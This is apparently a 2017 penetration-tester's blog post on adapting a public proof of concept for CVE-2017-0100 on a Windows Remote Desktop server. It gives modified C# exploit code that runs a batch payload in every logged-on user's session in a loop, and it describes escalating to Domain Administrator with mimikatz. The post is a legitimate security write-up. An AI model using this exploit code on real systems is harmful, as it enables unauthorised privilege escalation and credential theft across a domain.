 ```yaml
---
layout: post
title:  "From Patch Tuesday to DA"
date:   2017-03-17 19:45:31 +0530
categories: Archive
tags: [Priv-Esc,Exploit]
---
```


Recently on an assessment, I was stuck in the context of a user with low privileges on a Windows Server 2012 R2 system. This server functioned as a Remote Desktop server for the organization. I knew that if we could escalate to local administrator on the server, we would be able to use mimikatz to steal Domain Administrator credentials.

I was working with [Chris Myers](https://www.linkedin.com/in/chris-myers-54326155/) , and we had tried almost everything. Right when we were about to move on, CVE-2017-0100 came to our attention. It was the perfect vulnerability for our situation. In theory, it should allow us to execute a payload on every user with an active session on the remote desktop server. The vulnerability and proof-of-concept exploit was submitted by [James Forshaw](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021);  we modified it to fit our situation. The proof of concept uses session monikers with a DCOM activator to allow a user to start an arbitrary process in another logged on user’s session.

After analyzing the original proof of concept, we still needed to make a few modifications to fit it to our situation.


## 1) Identify what types of payloads were viable with this exploit, and modify how the payload is defined and executed.


Here is the original code:

{% highlight csharp %}
Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
Thread.Sleep(20000);
IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
Uri target = new Uri(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.System), "notepad.exe"));
server.Execute(target.AbsoluteUri);
{% endhighlight %}

After identifying that the target parameter was primarily just a path to an executable, the first thing we attempted was to try a Regsvr32.exe payload brought to light by [Casey Smith's](https://twitter.com/subTee) [blog post](http://subt0x10.blogspot.com/2016/04/bypass-application-whitelisting-script.html).  However, we were unable to get the IHxHelpPaneServer server’s execute function to take parameters.

We decided that dropping a small .bat file to disk was an acceptable risk, and found a path that was accessible to every user, “C:\TEMP\”.

Here is our modified code:

{% highlight csharp %}
Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
Thread.Sleep(20000);
IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
Uri target = new Uri("C:\\TEMP\\testing.bat");
server.Execute(target.AbsoluteUri);
{% endhighlight %}



## 2) Allow the exploit to execute code on each session instead of only one.


The original proof of concept would gather a session id for each session on the host, but then only execute code in one session.

Here is the original code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            new_session_id = sessions.First();
            break;
        }
        Thread.Sleep(1000);
    }
}
{% endhighlight %}

Our situation demanded that we could execute code in each user's context, instead of only the first session recorded. To do this we simply randomly picked a session in the existing “sessions” IEnumerable object, and use that session to execute our payload. Due to the nature of random selection, you may run code on the same user twice; however, due to time constraints, we were willing to accept that outcome.

Here is our modified code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            Random rnd = new Random();
            int r = rnd.Next(sessions.Count());
            new_session_id = sessions.ElementAt(r);
            break;
        }
        Thread.Sleep(1000);
    }

}
{% endhighlight %}


## 3) Keep the exploit running, until we manually kill the process.


The original code would execute once and then exit. To solve this problem, we simply let the IHxHelpPaneServer execute functionality inside of a while loop.

Here is the original code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            new_session_id = sessions.First();
            break;
        }
        Thread.Sleep(1000);
    }

    Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
    Thread.Sleep(20000);
    IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
    Uri target = new Uri(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.System), "notepad.exe"));
    server.Execute(target.AbsoluteUri);
}
catch (Exception ex)
{
    Console.WriteLine(ex);
}
{% endhighlight %}

And here is our modified code:

{% highlight csharp %}
try
{
    int current_session_id = Process.GetCurrentProcess().SessionId;
    int new_session_id = 0;
    Console.WriteLine("Waiting For a Target Session");
    while (true)
    {
        IEnumerable<int> sessions = GetSessionIds().Where(id => id != current_session_id);
        if (sessions.Count() > 0)
        {
            Random rnd = new Random();
            int r = rnd.Next(sessions.Count());
            new_session_id = sessions.ElementAt(r);
            Console.WriteLine("Creating Process in Session {0} after 20secs", new_session_id);
            Thread.Sleep(20000);
            IHxHelpPaneServer server = (IHxHelpPaneServer)Marshal.BindToMoniker(String.Format("session:{0}!new:8cec58ae-07a1-11d9-b15e-000d56bfe6ee", new_session_id));
            Uri target = new Uri("C:\\TEMP\\testing.bat");
            server.Execute(target.AbsoluteUri);
        }
        Thread.Sleep(60000);
    }

}
catch (Exception ex)
{
    Console.WriteLine(ex);
}
{% endhighlight %}

## In Conclusion

We understand that our modifications may not be perfect, but we were able to take [James Forshaw's](https://bugs.chromium.org/p/project-zero/issues/detail?id=1021) amazing work and mold it to our situation. In the end, we successfully spawned shells in each user’s context on the remote desktop server. Using those privileges we were able to escalate to Domain Administrator.

None of this would be possible without [James Forshaw](https://twitter.com/tiraniddo) for developing and releasing the original proof of concept, and [Chris Myers](https://www.linkedin.com/in/chris-myers-54326155/) for working through this problem with me!
